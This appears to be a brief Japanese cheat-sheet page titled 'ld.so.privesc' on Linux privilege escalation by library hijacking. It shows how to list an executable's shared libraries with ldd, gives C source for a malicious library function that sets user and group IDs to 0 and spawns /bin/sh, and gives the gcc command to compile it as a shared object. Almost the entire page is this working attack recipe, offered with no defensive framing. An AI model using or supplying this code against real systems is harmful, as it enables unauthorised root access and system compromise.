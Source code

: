 # ld.so.privesc

* 実行体に必要なsoを確認

``` shell
  ldd <実行体>
```

* Cファイルの作成
  
``` c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/types.h>

    void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh");
    }
```

* soファイルコンパイル

``` shell
     gcc -shared -o libcustom.so -fPIC libcustom.c
```
